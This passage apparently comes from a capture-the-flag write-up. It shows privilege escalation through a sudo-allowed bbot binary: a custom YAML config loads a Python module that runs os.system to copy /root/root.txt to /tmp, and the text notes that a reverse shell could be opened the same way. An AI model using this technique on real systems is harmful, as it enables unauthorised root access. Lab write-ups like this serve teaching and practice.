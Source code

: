 Searching up bbot in GTFObin did not yield any results. Let’s search up bbot github on Google.

```bash
cd /usr/local/bin/

./bbot
```

![image.png]({{ site.baseurl }}/assets/cypher/image%209.png)

![image.png]({{ site.baseurl }}/assets/cypher/image%2010.png)

And with this link, we can create out custom python module. First, we need to create a YAML file in /tmp/custom.yml

```bash
modules:
- mymodule

module_dirs:
- /tmp/my_modules
```

Now let’s create the module ourselves:

```bash
from bbot.modules.base import BaseModule
import os
os.system("cat /root/root.txt > /tmp/flag.txt")

def MyModule(BaseModule):
	watched_events = ["DNS_NAME"]
	async def handle_event(self, event):
		import os
		os.system("cat /root/root.txt > /tmp/flag.txt")
```

We can even get a reverse shell here if we want. 

Now that our module is created, let’s execute our payload with sudo:

```bash
sudo /usr/local/bin/bbot -p /tmp/custom.yml --force
```

Now we have the flag.
